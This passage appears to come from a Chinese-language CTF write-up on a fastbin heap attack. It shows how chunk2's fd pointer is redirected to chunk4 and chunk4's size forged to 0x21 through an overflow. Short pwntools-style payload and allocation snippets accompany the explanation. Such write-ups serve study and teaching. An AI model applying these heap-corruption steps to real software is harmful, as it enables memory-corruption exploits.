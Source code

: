 在释放两个之后，可以看到fastbins表中已经有两个地址，而且 chunk2->fd 指向 chunk1。此时可以编辑chunk0，修改 chunk2->fd 指向 chunk4，并且需要编辑chunk3，来修改chunk4的大小，以此绕过malloc时的fastbins校验。
```
payload = p64(0) * 3 + p64(0x21) + p64(0) * 3 + p64(0x21) + p8(0x80)
fill(0, payload)
payload = p64(0) * 3 + p64(0x21)
fill(3, payload)
```

此时的堆布局以及堆管理表的内容如下：

![](8.png)

可以看到已经将chunk4的大小改为了0x21，并将chunk4放进了fastbins表中，而此时的chunk1和chunk2都不在堆管理表中了。

接下来再创建两个大小符合fastbins中的堆块，那么此时就会首先分配位于fastbins表中的地址。
```
allocate(0x10)
allocate(0x10)
```
